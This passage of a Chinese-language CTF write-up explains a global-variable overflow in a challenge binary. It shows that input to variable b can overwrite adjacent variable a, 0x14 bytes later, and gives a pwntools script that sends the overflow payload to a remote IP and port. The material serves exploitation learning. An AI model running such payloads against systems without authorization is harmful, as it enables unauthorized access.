 ​		双击a变量，发现它位于程序的bss段，也就是说这是一个全局变量。

!![t8scs1.png](https://s1.ax1x.com/2020/06/01/t8scs1.png)

​		而在它上方有另一个全局变量b，这个变量在main函数中被用来输入姓名。

![t8sgqx.png](https://s1.ax1x.com/2020/06/01/t8sgqx.png)

​		我们可以用read函数填充b变量，溢出到a，覆盖a[0]为1。

![t8sRZ6.png](https://s1.ax1x.com/2020/06/01/t8sRZ6.png)

​		b的地址为：0x08049B4C，a的地址为：0x08049B60。计算可知，两者相距0x14字节。

​		脚本如下：

```python
from pwn import *
p = remote("121.41.113.245",10000)
payload = 'a'*0x14 + p32(1)
p.recvuntil('First tell me who you are : \n')
p.sendline(payload)
p.recvuntil('Do you know what I am thinking?\n')
p.sendline(str(83))
p.interactive()
```





